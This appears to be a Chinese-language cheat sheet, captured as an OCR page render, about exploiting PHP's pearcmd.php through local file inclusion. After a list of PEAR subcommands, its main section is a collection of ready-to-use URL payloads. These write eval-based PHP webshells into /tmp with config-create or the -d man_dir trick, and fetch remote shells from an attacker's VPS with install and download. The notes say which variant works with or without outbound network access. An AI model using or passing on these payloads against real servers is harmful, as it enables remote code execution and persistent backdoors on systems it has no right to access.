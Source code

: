 ```php
package-dependencies   Show package dependencies  
package-validate       Validate Package Consistency  
pickle                 Build PECL Package  
remote-info            Information About Remote Packages  
remote-list            List Remote Packages  
run-scripts            Run Post-Install Scripts bundled with a package  
run-tests              Run Regression Tests  
search                 Search remote package database  
shell-test             Shell Script Test  
sign                   Sign a package distribution file  
svntag                 Set SVN Release Tag  
uninstall              Un-install Package  
update-channels        Update the Channel List  
upgrade                Upgrade Package  
upgrade-all            Upgrade All Packages \[Deprecated in favor of calling upgrade with no parameters\]
```

### 一些pearcmd相关的payload

```php
payload：  
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php  
​  
通过install命令远程下载shell  
在有回显的情况下，服务器会回显下载的目录  
/?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://\[vps\]:\[port\]/test1.php  
​  
一个很脑洞的利用方法  
payload为/?+download+http://ip:port/test1.php&file=/usr/local/lib/php/pearcmd.php  
在服务器上构造好目录:test1.php&file=/usr/local/lib/php/，将恶意php命名为pearcmd.php  
​  
/?file=/usr/local/lib/php/pearcmd.php&+download+http://ip:port/source/hint.txt  
​  
不出网的情况  
pear -c /tmp/.feng.php -d man\_dir=<?=eval($\_POST\[0\]);?> -s  
把木马写入本地  
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($\_POST\[c\]);?>+/tmp/shell.php  
​  
/index.php/?file=%2f%75%73%72%2f%6c%6f%63%61%6c%2f%6c%69%62%2f%70%68%70%2f%70%65%61%72%63%6d%64%2e%70%68%70&+download+http://vps/1.txt  
​  
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php  
​  
有用的payload（好像一定要post，不知道为什么）：  
/?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/man.php+-d+man\_dir=<?eval($\_POST\[0\]);?>+-s  
/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($\_REQUEST\[0\]);?>+/tmp/hello.php  
​
```
